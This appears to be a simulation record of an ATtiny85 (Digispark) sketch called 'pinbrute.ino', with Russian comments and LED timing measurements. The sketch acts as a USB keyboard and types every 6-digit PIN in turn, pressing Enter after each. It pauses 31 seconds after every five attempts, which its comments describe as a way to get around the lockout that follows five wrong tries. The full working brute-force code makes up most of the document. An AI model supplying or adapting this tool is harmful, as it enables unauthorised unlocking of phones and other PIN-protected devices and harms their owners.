
Recording of a sketch running on a simulated ATtiny85, built with avr-gcc and run on an emulated ATtiny85. Shown: output pins drawn as LEDs (lit = HIGH).

Above: at 4.6 s.
At 29.8 s:

Timing chart, 0 to 58.0 s (numbered marks = the images above):


The sketch:

pinbrute.ino
```cpp
#include "DigiKeyboard.h"

// Настройка пина для светодиода (на Digispark Model A используется пин 1, на Model B - пин 0)
#define LED_PIN 1
#define PIN_LENGTH 6        // Длина PIN-кода (6 цифр)
#define MAX_PIN 999999      // Максимальное значение для 6 цифр

void setup() {
  // Настраиваем пин светодиода как выход
  pinMode(LED_PIN, OUTPUT);

  // Небольшая задержка для инициализации USB
  DigiKeyboard.delay(3000);

  // Сигнал старта (3 быстрых мигания)
  for (int i = 0; i < 3; i++) {
    digitalWrite(LED_PIN, HIGH);
    DigiKeyboard.delay(100);
    digitalWrite(LED_PIN, LOW);
    DigiKeyboard.delay(100);
  }
}

void loop() {
  // Перебираем все PIN-коды от 000000 до 999999
  for (long pin = 0; pin <= MAX_PIN; pin++) {

    // Каждые 5 попыток делаем большую паузу (защита от блокировки)
    if (pin % 5 == 0 && pin > 0) {
      // Включаем светодиод на время паузы
      digitalWrite(LED_PIN, HIGH);

      // Ждём 31 секунду (стандартное время блокировки после 5 неверных попыток)
      for (int i = 0; i < 31; i++) {
        DigiKeyboard.delay(1000);
      }

      // Выключаем светодиод
      digitalWrite(LED_PIN, LOW);
    }

    // Форматируем число в 6-значный PIN (например, 1 -> "000001")
    String pinStr = String(pin);
    while (pinStr.length() < PIN_LENGTH) {
      pinStr = "0" + pinStr;
    }

    // Отправляем PIN-код как нажатия клавиш
    DigiKeyboard.print(pinStr);

    // Нажимаем Enter (подтверждение ввода)
    DigiKeyboard.sendKeyStroke(KEY_ENTER);
    DigiKeyboard.delay(100);
    DigiKeyboard.sendKeyStroke(0); // Отпускаем все клавиши

    // Небольшая задержка перед следующей попыткой
    DigiKeyboard.delay(2000); // 2 секунды между попытками

    // Мигаем светодиодом после каждой успешной отправки
    digitalWrite(LED_PIN, HIGH);
    DigiKeyboard.delay(50);
    digitalWrite(LED_PIN, LOW);
  }

  // После завершения всех попыток мигаем светодиодом
  while (true) {
    digitalWrite(LED_PIN, HIGH);
    DigiKeyboard.delay(500);
    digitalWrite(LED_PIN, LOW);
    DigiKeyboard.delay(500);
  }
}
```

Measured:
- by itself, PB1 (LED_PIN): HIGH → LOW at 3.1 s, → HIGH 0.10 s later, → LOW 0.10 s later, → HIGH 0.10 s later, … (35 changes in this stretch)
- by itself, everything shown: repeats every 41.8 s, in 10 steps
